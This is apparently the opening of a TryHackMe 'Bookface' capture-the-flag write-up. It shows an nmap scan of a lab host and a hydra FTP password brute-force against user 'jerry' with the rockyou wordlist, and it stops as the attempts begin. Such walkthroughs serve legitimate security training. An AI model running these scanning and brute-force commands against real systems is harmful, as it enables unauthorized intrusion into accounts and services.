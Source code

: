 ```yaml
---
title: "Bookface"
date: 2020-02-10T14:50:43+01:00
draft: false
tags: ["ctf", "tryhackme"]
categories: ["ctf", "tryhackme"]
---
```


Before we start, read more about following tools & vulnerabilities. It will contains in this CTF
- [hydra](https://www.cyberpunk.rs/password-cracker-thc-hydra)
- [screen](https://www.gnu.org/software/screen/) - [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/)
- [knock](https://linux.die.net/man/1/knock)

and also you can read more about additional security method called [port knocking](https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/)

So let's start as usual with __nmap__.
```bash
nmap -F --top-ports 10 -sV 10.10.219.90
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-10 16:37 CET
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.16% done; ETC: 16:40 (0:00:00 remaining)
Nmap scan report for 10.10.219.90
Host is up (0.38s latency).

PORT     STATE  SERVICE        VERSION
21/tcp   open   ftp            vsftpd 2.0.8 or later
22/tcp   closed ssh
23/tcp   open   telnet?
25/tcp   open   smtp?
80/tcp   open   http?
110/tcp  open   pop3?
139/tcp  open   netbios-ssn?
443/tcp  open   https?
445/tcp  open   microsoft-ds?
3389/tcp open   ms-wbt-server?
```

After scan, we can see many ports open, but only from FTP we have grabbed banner *vsftpd 2.0.8 or later*. 
From description of this game we know the developer's name: *Jerry*, so we can try brute force attack to FTP server.

```bash
$ hydra -ljerry -P /usr/share/dict/rockyou.txt ftp://10.10.219.90 -t 16  -vV                                        
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-10 16:28:50
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task   
[DATA] attacking ftp://10.10.219.90:21/                   
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done                                                          
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "" - 1 of 14344409 [child 0] (0/0)                             
```